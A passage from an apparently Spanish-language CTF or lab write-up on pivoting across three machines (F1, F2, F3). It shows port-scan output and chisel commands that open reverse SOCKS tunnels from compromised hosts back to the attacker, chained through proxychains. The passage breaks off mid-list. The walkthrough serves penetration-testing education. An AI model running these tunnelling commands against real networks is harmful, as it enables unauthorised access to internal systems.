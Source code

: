 ```bash
bash-5.1# ./ports.sh 192.168.40.21
Puerto Abierto: 192.168.40.21:21
Puerto Abierto: 192.168.40.21:22
Puerto Abierto: 192.168.40.21:80
```

Así que confirmamos la dirección de <span style="color: blue;">F3</span> y sus puertos (:

Se viene la parte divertida, saltemos entre trampolines 🦘

# Pivoting F1 < F2 < F3 [📌](#friendly123-pivoting) {#friendly123-pivoting}

Ya conocimos la teoría y el paso a paso antes, así que ahora solo te dejaré los pasos (que yo hago) para llegar a todos los objetivos. A <span style="color: green;">**F1**</span>, a <span style="color: orange;">**F2**</span> y a <span style="color: blue;">**F3**</span>:

(Estos ya los tenemos de antes, pero por si algo: <span style="color: gray;">**Atacante**</span> a <span style="color: orange;">**F2**</span>)

* <span style="color: gray;">**Atacante**</span>:
  
  ```bash
  chisel server -p 1080 --reverse
  ```

* <span style="color: green;">**F1**</span>:

  ```bash
  chisel client 192.168.20.26:1080 R:1111:socks
  ```

* <span style="color: gray;">**Atacante**</span>:

  ```bash
  #edit /etc/proxychains file
  socks5 127.0.0.1 1111
  ```

(Nuevos: <span style="color: gray;">**Atacante**</span> a <span style="color: blue;">**F3**</span>)

* <span style="color: green;">**F1**</span>:

  ```bash
  chisel server -p 1081 --reverse
  ```

* <span style="color: orange;">**F2**</span>:

  ```bash
  chisel client 172.18.100.26:1081 R:2222:socks
  ```

* <span style="color: gray;">**Atacante**</span>:

  ```bash
  chisel server -p 1081 --reverse
  ```

* <span style="color: green;">**F1**</span>:
